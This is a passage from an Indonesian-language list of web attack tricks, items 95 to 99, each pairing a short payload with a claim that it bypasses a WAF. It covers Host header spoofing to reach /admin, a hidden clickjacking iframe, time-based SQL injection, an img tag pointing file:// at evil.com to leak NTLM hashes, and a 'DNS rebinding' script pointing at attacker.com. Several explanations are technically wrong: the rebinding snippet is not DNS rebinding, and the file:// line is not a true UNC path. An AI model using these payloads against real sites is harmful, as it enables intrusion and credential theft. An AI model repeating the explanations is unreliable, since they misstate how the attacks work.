 
### **🛡️ 95. Host Header Attack for Privilege Escalation**  
```http
GET /admin HTTP/1.1
Host: internal.victim.com
```
**📌 Teknik:**  
✅ **Host Header Attack** = Mengubah `Host` untuk mengakses area internal server.  
✅ **Bypass WAF** karena terlihat seperti request normal.  

---

### **🛡️ 96. Clickjacking via Hidden Frame Overlay**  
```html
<iframe src="http://victim.com" style="opacity:0;position:absolute;top:0;left:0;width:100%;height:100%;"></iframe>
```
**📌 Teknik:**  
✅ **Clickjacking** = Memanfaatkan iframe transparan untuk mencuri klik pengguna.  
✅ **Bypass WAF** karena terjadi di level UI, bukan HTTP request.  

---

### **🛡️ 97. Advanced WAF Bypass with Time-Based SQL Injection**  
```sql
SELECT IF(1=1, SLEEP(5), 0)
```
**📌 Teknik:**  
✅ **Time-Based Injection** = Mengeksploitasi waktu respons server untuk mendapatkan data.  
✅ **Bypass WAF** karena payload tidak mengandung karakter SQL berbahaya secara eksplisit.  

---

### **🛡️ 98. NTLM Hash Capture via UNC Path Injection**  
```html
<img src="file://evil.com/hack.png">
```
**📌 Teknik:**  
✅ **UNC Path Injection** = Memaksa browser mengirim NTLM hash ke server penyerang.  
✅ **Bypass WAF** karena berbasis protokol file, bukan HTTP.  

---

### **🛡️ 99. DNS Rebinding Attack for Local Network Exploitation**  
```js
<script>location.hostname = "attacker.com";</script>
```
**📌 Teknik:**  
✅ **DNS Rebinding** = Mengelabui browser untuk mengakses server lokal dari domain jahat.  
✅ **Bypass WAF** karena serangan terjadi melalui DNS, bukan request langsung.  

---